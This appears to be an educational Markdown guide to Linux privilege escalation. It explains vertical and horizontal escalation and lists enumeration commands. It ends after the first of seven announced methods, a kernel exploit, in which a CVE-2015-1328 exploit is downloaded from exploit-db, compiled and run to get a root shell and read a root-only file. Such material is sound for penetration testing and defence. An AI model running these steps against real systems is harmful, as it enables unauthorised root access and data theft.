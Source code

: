 


# Linux Privilege Escalation Guide



## What is Privilege Escalation?

Privilege escalation is when a user increases their access level on a system beyond what they’re supposed to have. For example, a regular user might gain root (administrator) access, allowing them to read sensitive files, change settings, or execute any command. It’s critical for:
- **Attackers**: To maximize control after initial access.
- **Penetration Testers**: To identify and report weaknesses.
- **Admins**: To secure systems against unauthorized access.

There are two types:
- **Vertical**: Gaining higher privileges (e.g., user to root).
- **Horizontal**: Accessing another user’s account at the same level.

## Why Enumeration Matters

Enumeration is the process of gathering information about a system to find privilege escalation opportunities. Common commands include:
- `uname -a`: Kernel version.
- `sudo -l`: Sudo permissions.
- `find / -perm -u=s`: SUID files.
- `cat /etc/crontab`: Cron jobs.
- `echo $PATH`: PATH variable.
- `cat /etc/exports`: NFS settings.
- `getcap -r /`: Capabilities.

Tools like **LinPEAS** or **LinEnum** can automate enumeration, but manual checks are essential for precision.

## Privilege Escalation Methods

Below are seven methods to achieve privilege escalation on Linux, each with an example and a detailed breakdown.

### 1. Kernel Exploits

**Description**: The Linux kernel manages system resources. Bugs in the kernel can be exploited to gain root access, as the kernel runs with the highest privileges.

**Example**:
```bash
# Check kernel version
uname -a
# Output: Linux target 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux

# Download and compile an exploit for CVE-2015-1328
wget http://exploit-db.com/exploits/37292.c -O exploit.c
gcc exploit.c -o exploit
./exploit
# Spawns root shell
whoami
# Output: root
cat /root/secret.txt
# Output: Super secret data
```

